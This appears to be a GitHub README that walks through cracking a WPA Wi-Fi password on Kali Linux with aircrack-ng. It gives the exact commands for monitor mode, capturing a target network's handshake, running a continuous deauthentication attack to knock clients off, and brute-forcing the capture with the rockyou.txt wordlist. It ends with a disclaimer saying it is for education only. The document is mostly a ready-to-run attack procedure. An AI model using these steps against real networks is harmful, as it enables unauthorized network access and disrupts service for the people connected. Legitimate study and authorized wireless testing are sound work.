 
# Password Cracking using aircrack-ng

These are the steps to be followed to Crack WIFI Key Using Kali Linux

Terminal Commands:

    sudo su
     airmon-ng check kill
     airmon-ng start wlan0
     airodump-ng wlan0mon

<img src="https://user-images.githubusercontent.com/103558082/235841983-11d9990a-a9d2-45fa-8f3f-fd0c140b738d.png">
<img src="https://user-images.githubusercontent.com/103558082/235842012-21987a57-e498-40f9-93d7-d6f4b5f2adb4.png">

In new terminal:

    sudo su
     cd Desktop
     airodump-ng wlan0mon --bssid (target Bssid) -c (Target Channel Number) -w (hand_shake file name)

After running the above command there will be certain .csv and .cap files created based on the (hand_shake file name) name specified.

<img src="https://user-images.githubusercontent.com/103558082/235842315-384ce725-cbed-4a4f-a321-c7e3e1ecccd4.png">
<img src="https://user-images.githubusercontent.com/103558082/235842319-ddfe5f7d-5351-46de-bf20-f35a106237e4.png">

For Deauthentication attack open new terminal:

    aireplay-ng --deauth 0 -a (Target Bssid) wlan0mon 

Run the Deauthentication attack till you get a WPA Handshake

<img src="https://user-images.githubusercontent.com/103558082/235842462-6ec05fb6-9876-49be-af70-8da245d4c226.png">

For getting the (wordlist name) i.e rockyou.txt file go to :

    /usr/share/wordlists  
extract the rockyou.txt file to Desktop.

For cracking Handshake open new terminal:

    sudo su
     cd Desktop
     aircrack-ng -w (wordlist name) (hanshake cap file name)

<img src="https://user-images.githubusercontent.com/103558082/235842451-53454002-f041-4f01-b3ba-b670df50a801.png">
<img src="https://user-images.githubusercontent.com/103558082/235842456-450370ca-5da0-4724-8471-0b929d8bdc4b.png">
<img src="https://user-images.githubusercontent.com/103558082/235842459-99b419ca-cb78-431e-b789-21a3a55458ec.png">

## Disclaimer

ANY ILLEGAL USE OF ANY LEARNT TECHNIQUE
WILL BE SOLELY THE ACTION OF THAT INDIVIDUAL.
THIS IS MERELY FOR EDUCATION PURPOSES AND THESE COMMAND ARE RUN ON SAMPLE WIFI NETWORK.
